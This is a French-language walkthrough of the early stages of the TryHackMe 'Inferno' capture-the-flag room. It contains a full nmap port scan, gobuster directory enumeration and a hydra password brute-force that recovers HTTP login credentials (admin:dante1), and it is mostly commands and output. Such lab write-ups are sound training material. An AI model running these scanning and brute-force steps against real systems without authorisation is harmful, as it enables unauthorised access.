


# Inferno #

## Task 1 Inferno ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.177.205 inferno.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A inferno.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-10 21:57 CEST
Stats: 0:12:15 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.12% done; ETC: 22:09 (0:00:04 remaining)
Stats: 0:15:34 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.39% done; ETC: 22:12 (0:00:04 remaining)
Nmap scan report for inferno.thm (10.10.177.205)
Host is up (0.041s latency).
Not shown: 65445 closed ports
PORT      STATE SERVICE           VERSION
21/tcp    open  ftp?
22/tcp    open  ssh               OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
|_  256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
23/tcp    open  telnet?
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http              Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  kerberos-sec?
106/tcp   open  pop3pw?
110/tcp   open  pop3?
194/tcp   open  irc?
|_irc-info: Unable to open connection
389/tcp   open  ldap?
443/tcp   open  https?
464/tcp   open  kpasswd5?
636/tcp   open  ldapssl?
750/tcp   open  kerberos?
775/tcp   open  entomb?
777/tcp   open  multiling-http?
779/tcp   open  unknown
783/tcp   open  spamassassin?
808/tcp   open  ccproxy-http?
873/tcp   open  rsync?
1001/tcp  open  webpush?
1178/tcp  open  skkserv?
1210/tcp  open  eoss?
1236/tcp  open  bvcontrol?
1300/tcp  open  h323hostcallsc?
1313/tcp  open  bmc_patroldb?
1314/tcp  open  pdps?
1529/tcp  open  support?
2000/tcp  open  cisco-sccp?
2003/tcp  open  finger?
|_finger: ERROR: Script execution failed (use -d to debug)
2121/tcp  open  ccproxy-ftp?
2150/tcp  open  dynamic3d?
2600/tcp  open  zebrasrv?
2601/tcp  open  zebra?
2602/tcp  open  ripd?
2603/tcp  open  ripngd?
2604/tcp  open  ospfd?
2605/tcp  open  bgpd?
2606/tcp  open  netmon?
2607/tcp  open  connection?
2608/tcp  open  wag-service?
2988/tcp  open  hippad?
2989/tcp  open  zarkov?
4224/tcp  open  xtell?
4557/tcp  open  fax?
4559/tcp  open  hylafax?
4600/tcp  open  piranha1?
4949/tcp  open  munin?
5051/tcp  open  ida-agent?
5052/tcp  open  ita-manager?
5151/tcp  open  esri_sde?
5354/tcp  open  mdnsresponder?
5355/tcp  open  llmnr?
5432/tcp  open  postgresql?
5555/tcp  open  freeciv?
5666/tcp  open  nrpe?
5667/tcp  open  unknown
5674/tcp  open  hyperscsi-port?
5675/tcp  open  v5ua?
5680/tcp  open  canna?
6346/tcp  open  gnutella?
6514/tcp  open  syslog-tls?
6566/tcp  open  sane-port?
6667/tcp  open  irc?
|_irc-info: Unable to open connection
8021/tcp  open  ftp-proxy?
8081/tcp  open  blackice-icecap?
8088/tcp  open  radan-http?
8990/tcp  open  http-wmap?
9098/tcp  open  unknown
9359/tcp  open  unknown
9418/tcp  open  git?
9673/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt?
10081/tcp open  famdc?
10082/tcp open  amandaidx?
10083/tcp open  amidxtape?
11201/tcp open  smsqp?
15345/tcp open  xpilot?
17001/tcp open  unknown
17002/tcp open  unknown
17003/tcp open  unknown
17004/tcp open  unknown
20011/tcp open  unknown
20012/tcp open  ss-idi-disc?
24554/tcp open  binkp?
27374/tcp open  subseven?
30865/tcp open  unknown
57000/tcp open  unknown
60177/tcp open  unknown
60179/tcp open  unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/10%OT=21%CT=1%CU=44762%PV=Y%DS=2%DC=T%G=Y%TM=61634C
OS:E6%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST
OS:11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   80.36 ms 10.9.0.1
2   80.71 ms inferno.thm (10.10.177.205)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1873.72 seconds
```

Ici avec nmap nous avons une multitude de services inconnu ou mal reconnu, il semble qu'ils soient faux.  
Le seules services qui peuvent être légitime sont le service SSH sur le port 22 et le service HTTP sur le port 80.   

   

Sur la page principale on a pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u inferno.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -q
/inferno              (Status: 401) [Size: 458]
/server-status        (Status: 403) [Size: 276]
```

On énumère les répertoires avec gobuster et on trouve un répertoire inferno.  

 

Sur la page inferno on nous demande des identifiants.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l admin -P /usr/share/wordlists/rockyou.txt inferno.thm http-get /inferno/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-10 23:33:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://inferno.thm:80/inferno/
[STATUS] 4600.00 tries/min, 4600 tries in 00:01h, 14339799 to do in 51:58h, 16 active
[80][http-get] host: inferno.thm   login: admin   password: dante1
```

Avec hydra on trouve les identifiants qui sont : admin:dante1